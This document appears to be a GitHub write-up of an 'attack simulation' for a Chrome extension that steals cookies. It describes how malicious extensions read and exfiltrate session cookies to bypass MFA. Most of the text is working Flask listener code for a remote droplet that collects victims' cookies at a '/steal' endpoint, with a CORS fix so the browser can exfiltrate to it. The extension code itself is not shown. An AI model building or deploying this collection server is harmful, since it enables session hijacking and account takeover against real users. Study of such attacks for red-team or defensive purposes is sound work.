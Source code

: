 # Attack Simulation - Chrome extension cookie stealer 

***

## Goals
As the browser is the new endpoint and malicious browser extensions may not be monitored in real time by companies due to the cost of these additional services, this is a good way to get cookie data from victims. For this I am using a Digital Ocean Ubuntu droplet to be the listener.

Malicious Chrome extensions can:
1. Use the chrome.cookies API to read cookies from specific domains.
2. Monitor tab activity to detect login events.
3. Exfiltrate cookies to a remote server via HTTP requests or form submissions.

The Cookie-Bite attack is a well-documented PoC that shows how session cookies from Microsoft services can be stolen and used to bypass MFA.

## Listener
To create the listener, on my Ubuntu droplet I will do pip3 install flask. I then create a python script called server.py with the following code:
```
from flask import Flask, request
app = Flask(__name__)

@app.route('/steal', methods=['POST'])
def steal():
    data = request.json
    print("Cookies received:", data)
    return "OK", 200

app.run(host='0.0.0.0', port=5000)
```
Be aware that this might not work due to CORS, so to fix that install pip3 install flask-cors. The new code is now this one:
```
from flask import Flask, request
from flask_cors import CORS

app = Flask(__name__)
CORS(app)  # This allows all origins by default

@app.route('/steal', methods=['POST'])
def steal():
    data = request.json
    print("Cookies received:", data)
    return "OK", 200

app.run(host='0.0.0.0', port=5000)
```
This will automatically handle the OPTIONS preflight and add the necessary headers like:
1. Access-Control-Allow-Origin
2. Access-Control-Allow-Methods
3. Access-Control-Allow-Headers
